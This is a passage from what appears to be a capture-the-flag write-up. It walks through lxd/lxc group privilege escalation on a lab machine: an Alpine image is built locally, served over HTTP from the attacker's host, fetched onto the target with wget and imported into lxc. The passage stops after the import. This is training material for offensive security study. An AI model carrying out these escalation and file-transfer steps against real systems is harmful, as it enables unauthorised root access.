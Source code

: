 **Found tmux session.** Maybe we could do tmux sessions hijacking.

However, it's not exploitable in version 2.1.

**Now, let's try lxd/lxc group privilege escalation:** (All steps are from [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/))

- Download build-alpine in your local machine through the [git repository](https://github.com/saghul/lxd-alpine-builder):

```shell
┌[siunam♥earth]-(/opt)-[2023.06.04|21:28:46(HKT)]
└> git clone https://github.com/saghul/lxd-alpine-builder.git
```

- Execute the script "`build-alpine`" that will build the latest Alpine image as a compressed file:

```shell
┌[siunam♥earth]-(/opt/lxd-alpine-builder)-[2023.06.04|21:29:34(HKT)]-[git://master ✗]
└> ./build-alpine 
build-alpine: must be run as root
┌[siunam♥earth]-(/opt/lxd-alpine-builder)-[2023.06.04|21:29:36(HKT)]-[git://master ✗]
└> sudo ./build-alpine                  
[...]
┌[siunam♥earth]-(/opt/lxd-alpine-builder)-[2023.06.04|21:30:11(HKT)]-[git://master ✗]
└> ls -lah                    
[...]
-rw-r--r--   1 root   root 2.5M Jun  4 21:30 alpine-v3.8-x86_64-20230604_2130.tar.gz
[...]
```

- Transfer the tar file to the target machine:

```shell
┌[siunam♥earth]-(/opt/lxd-alpine-builder)-[2023.06.04|21:21:47(HKT)]-[git://master ✗]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
orestis@brainfuck:~$ wget http://10.10.14.26/alpine-v3.8-x86_64-20230604_2130.tar.gz -O /tmp/alpine-v3.8-x86_64-20230604_2130.tar.gz
```

- Import image for lxd:

```shell
orestis@brainfuck:~$ lxc image import /tmp/alpine-v3.8-x86_64-20230604_2130.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
orestis@brainfuck:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | cd73881adaac | no     | alpine v3.8 (20230604_21:30) | x86_64 | 3.11MB | Jun 4, 2023 at 1:25pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
```
